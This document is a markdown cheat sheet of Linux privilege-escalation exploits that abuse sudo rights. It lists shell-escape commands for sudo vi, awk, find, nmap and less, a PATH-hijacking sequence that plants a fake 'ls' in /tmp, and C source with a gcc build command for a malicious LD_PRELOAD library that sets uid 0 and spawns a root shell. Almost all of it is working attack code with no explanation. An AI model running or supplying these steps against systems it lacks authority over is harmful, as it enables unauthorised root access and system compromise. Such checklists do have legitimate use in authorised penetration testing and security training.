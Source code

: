 ## Check sudo permissions
```bash
sudo -l
```

## Exploit sudo vi for shell
```bash
sudo vi -c ':!/bin/sh' /dev/null
sudo vi
# Then type: :!/bin/bash
```

## Exploit sudo awk for shell
```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```

## Exploit sudo find for shell
```bash
sudo find . -exec /bin/sh \; -quit
sudo find / -name test -exec /bin/bash \;
```

## Exploit sudo nmap for shell
```bash
sudo nmap --interactive
# Then type: !sh
```

## Exploit sudo less for shell
```bash
sudo less /etc/hosts
# Then type: !/bin/bash
```

## Exploit PATH hijacking with writable directory
```bash
echo '/bin/bash' > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

## Check for LD_PRELOAD sudo permission
```bash
sudo -l | grep LD_PRELOAD
```

## Create malicious shared library for LD_PRELOAD exploit
```bash
cat > /tmp/shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF
gcc -fPIC -shared -o /tmp/shell.so /tmp/shell.c -nostartfiles
```